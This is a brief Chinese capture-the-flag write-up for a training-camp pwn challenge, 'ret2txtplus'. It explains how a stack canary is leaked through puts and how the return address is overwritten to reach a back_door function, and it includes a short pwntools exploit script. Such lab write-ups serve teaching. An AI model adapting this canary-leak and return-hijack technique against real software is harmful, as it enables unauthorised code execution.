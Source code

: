 ```yaml
---
title: 赛博协会训练营 - ret2txtplus
date: 2023/9/16 12:00:00
tags:
    - noob
excerpt: 通过溢出canary并利用puts打印其余部分，成功返回到`back_door`实现漏洞利用。
---
```


from cbctf starter 2023

~~当我在想为什么题目会多一个e时我自己就多输了1个e~~

## 文件分析

下载`ret2txtp`, NX on, PIE off, Canary on, RELRO no  
ghidra分析为64位程序

## 解题思路

通过溢出canary的第一个字符，可以借助puts把剩下的canary打印出来，
因为没有pie，直接返回到`back_door`即可（需要ret补rsp）

## EXPLOIT

```python
from pwn import *
sh = remote(???, 10038)
sh.sendline(b'0'*0x17 + b'.') # '\n' override 1st byte of canary
sh.recvuntil(b'.\n')
data = sh.recvline()
canary = u64(b'\0' + data[:7])
sh.sendline(b'0'*0x18 + p64(canary) + b'0'*8 + p64(0x4007a6) + p64(0x400761)) # ret; back_doorAddr
sh.interactive()
```

Done.
